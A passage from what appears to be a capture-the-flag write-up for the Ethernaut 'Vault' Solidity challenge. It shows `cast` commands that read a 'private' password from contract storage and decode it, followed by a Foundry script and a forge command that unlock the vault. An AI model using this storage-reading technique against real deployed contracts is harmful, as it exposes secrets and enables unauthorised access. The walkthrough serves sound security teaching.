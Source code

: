 Even though the password variable is marked `private`, all contract storage is publicly visible on-chain. We can simply read the password directly from storage using `cast`.

```bash
cast storage <YOUR_INSTANCE> 1 --rpc-url $SEPOLIA_URL
```

That reveals the hex-encoded password:

```
0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```

We then decode it into a human-readable string:

```bash
cast parse-bytes32-string 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```

Which gives us:

```
A very strong secret password :)
```

### Script

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Vault.sol";

contract VaultSolution is Script {
    Vault public vault = Vault(0xF8766Fe10F52402589A5B8bf886e8553807462f3);

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        vault.unlock("A very strong secret password :)");
        console.log("Check if the vault is locked: ", vault.locked());
        vm.stopBroadcast();
    }
}
```

### POC

```bash
forge script script/VaultSolution.s.sol --rpc-url $SEPOLIA_URL --broadcast
```

---

## King

